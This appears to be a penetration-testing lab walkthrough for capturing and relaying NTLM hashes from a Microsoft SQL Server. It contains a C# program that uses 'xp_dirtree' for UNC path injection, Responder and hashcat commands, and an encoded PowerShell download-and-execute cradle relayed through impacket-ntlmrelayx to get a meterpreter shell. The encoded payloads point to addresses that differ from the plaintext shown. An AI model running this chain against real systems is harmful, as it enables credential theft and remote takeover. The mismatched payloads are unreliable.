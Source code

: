 As SQL Auth is succss with guest account, we can try UNC Path injection to retrive more privileged account's password hash.

```
﻿using System;
using System.Data;
using System.Data.SqlClient;

namespace MSSQLTest
{
    public class Program
    {
        public static void Main(string[] args)
        {

            //Console.WriteLine("Please enter your Server name ...");
            //String sqlServer = Console.ReadLine();
            String sqlServer = "web06.dev.final.com";
            String database = "master";
            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            bool issystemadmin = false;
            bool shelldisabled = false;

            bool dblink_issystemadmin = false;
            bool dblink_shelldisabled = false;
            bool dblink_rpcdisabled = false;


            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
                //Console.ReadLine();

            }
            catch
            {
                Console.WriteLine("Auth failed");
                //Console.ReadLine();
                Environment.Exit(0);
            }
			
			String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
			SqlCommand command = new SqlCommand(query, con);
			SqlDataReader reader = command.ExecuteReader();
			
			reader.Close();

            
		}
	}
}
```

We can capture the hash in kali machine by responder. Before starting responder smb service should be stopped. Open terminal in kali and run:

```
sudo responder -I tun0
```

And now go back to compromised windows machine and execute the c# application to inject UNC path. When executed we should see a hash in responder.

The hash can be cracked with hashcat:
```
hashcat -m 5600 hash.txt dict.txt --force
```

But we also can use impacket to access the target machine without cracking the hash. Generate powershell payload with msfvenom and paste powershell shellcode runner then upload to the webserver to download from compromized machine. 

Now generate encoded powershell command to use with impacket tool:

```
PS /home/kali/cobalt> clear
PS /home/kali/cobalt> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.88.120/run.txt') | IEX"
PS /home/kali/cobalt> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali/cobalt> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali/cobalt> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQA5AC4AMQAyADAALwByAHUAbgAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=
PS /home/kali/cobalt> 
```

And execute impacket-ntlmrelayx:
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```


Finally, we need to execute the c# application on the windows 10 machine to force the smb request from sql server.

At the moment we should have meterpreter shell already.